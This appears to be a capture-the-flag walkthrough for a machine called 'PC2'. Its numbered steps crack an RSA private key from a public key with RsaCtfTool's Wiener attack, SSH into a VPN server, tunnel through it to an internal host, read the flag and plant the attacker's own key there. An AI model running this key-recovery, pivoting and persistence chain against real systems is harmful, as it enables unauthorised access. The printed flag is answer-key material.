 # PC2

1. Resume From [🗂 VPN Server](../12-VPN-Server/)
2. Email Server, rsa Key: [🗂 SSH RSA](../10-Mail-Server/08-store0/4/msg/0/257-2.msg)
3. Wiener Attack
```
https://www.youtube.com/watch?v=M-yg0vbrAOk

https://cryptohack.gitbook.io/cryptobook/untitled/low-private-component-attacks/wieners-attack

```
4. Get `https://github.com/RsaCtfTool/RsaCtfTool` into: [🗂 RsaCtfToool](./04-RsaCtfTool/)
5. Running Rsa Ctf Tools
```
# python3 -m pip install -r 04-RsaCtfTool/requirements.txt
python3 04-RsaCtfTool/RsaCtfTool.py --publickey 02-ssh-rsa.rezaee.pub --attack wiener --private --output 05-rsa.rezaee.priv
```
6. Change Access Permissions: `chmod 600 05-rsa.rezaee.priv`
7. Generate SSH Private Key: `ssh-keygen -p -N "password" -f 05-rsa.rezaee.priv`
**Password: password**
8. SSH into VPN Server
```
ssh -i ~/.ssh/id_rsa2 vpn_user@vpn.petromaz.ir
```
9. Get IP of PC2
```
ping -t 1 pc2.petromaz.ir
```
10. SSH Tunnel Through vpn server!
```
   <Hacker>-------(SSH Tunnel)-------<VPN Server>--------------<PC2>
      |                                                          |
       ----------------------(SSH Connection)--------------------
0.0.0.0:7777                                            10.3.151.195:22

# In a New Terminal
ssh -N -i ~/.ssh/id_rsa2 -L 0.0.0.0:7777:10.3.151.195:22  vpn_user@vpn.petromaz.ir
```
11. Connect to PC2 through Tunnel
```
ssh -p 7777 -i 06-openssh.rezaee.priv rezaee@127.0.0.1
```
12. Read Flag: MAZAPA_dedcf160a1253afd73918666b0c6edb3
13. Add Your own Private key into PC2